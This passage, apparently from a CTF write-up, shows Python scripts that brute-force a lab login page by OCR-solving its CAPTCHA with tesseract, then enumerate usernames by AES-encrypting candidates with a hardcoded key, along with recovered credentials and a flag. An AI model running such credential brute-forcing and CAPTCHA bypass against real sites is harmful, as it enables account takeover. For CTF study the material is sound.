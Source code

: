 ```
        subprocess.run(["tesseract", img_path, out_txt[:-4]], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        with open(out_txt) as cap:
            raw_captcha = cap.read().strip()
            captcha = re.sub(r'\W+', '', raw_captcha)

        data = {
            "username": "ilp_test1",
            "password": password,
            "captcha": captcha
        }

        x = session.post(url, data=data)

        if "Kode CAPTCHA salah" in x.text:
            print(f"Captcha salah: {captcha}")
        elif "Password salah" in X.text:
            print(f"Password salah: {password}")
        else:
            print(f"Berhasil Username: ilp_test1 | 
            Password: {password} | Captcha: {captcha}")
```

username: ilp_test1 <br>
password: Chalo1 <br>
flag: CSM{b444d_capcayyy_heheh3} <br>

![Screenshot 2025-04-26 021715](https://github.com/user-attachments/assets/8023887a-ee88-4de1-b527-41b99bd4f7cc)


### Login4

searching for username:

```
import base64
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def encrypt(text):
    key = b"MySecretKey12345"
    iv = b"RandomInitVector"
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct_bytes = cipher.encrypt(pad(text.encode('utf-8'), AES.block_size))
    return base64.b64encode(ct_bytes).decode('utf-8')

with open("/home/kali/Documents/Login1/user.txt", "r") as file:
	for line in file:
		a = line.strip()
		en = encrypt(a)
		data = { "enc_username":en, "enc_password":"12345"}
		x = requests.post("http://192.168.70.202:3333/login4.php", data=data)
		if 'Password salah' in x.text:
			print(f"valid {en}")
			break
		else:
			print('salah')
```
